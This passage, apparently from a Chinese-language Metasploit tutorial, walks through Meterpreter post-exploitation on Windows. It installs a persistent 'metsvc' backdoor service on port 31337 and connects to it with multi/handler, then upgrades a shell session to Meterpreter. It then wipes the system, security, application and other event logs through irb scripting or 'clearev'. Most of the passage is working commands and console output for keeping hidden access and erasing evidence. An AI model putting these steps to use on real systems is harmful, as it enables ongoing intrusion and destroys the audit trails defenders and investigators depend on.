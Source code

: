 ```
meterpreter > run metsvc 

[!] Meterpreter scripts are deprecated. Try exploit/windows/local/persistence.
[!] Example: run exploit/windows/local/persistence OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Windows\TEMP\nzDwNmYr...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
         * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```

使用`multi/handler`监听即可建立会话,此时注意handler的payload,否则session会close

## 将命令行shell升级为Meterpreter

可以直接

```
sessions -u ID
```

## 清除痕迹

直接使用irb即可

```
meterpreter > irb
[*] Starting IRB shell...
>>
```

在进入`>>`交互的时候选中要删除的日志

```
log = client.sys.eventlog.open(‘system’)
log = client.sys.eventlog.open(‘security’)
log = client.sys.eventlog.open(‘application’)
log = client.sys.eventlog.open(‘directory service’)
log = client.sys.eventlog.open(‘dns server’)
log = client.sys.eventlog.open(‘file replication service’)
```

最后删除

```
log.clear
```



或者使用`clearev`

```
meterpreter > clearev 
[*] Wiping 299 records from Application...
[*] Wiping 939 records from System...
[*] Wiping 230 records from Security...
```









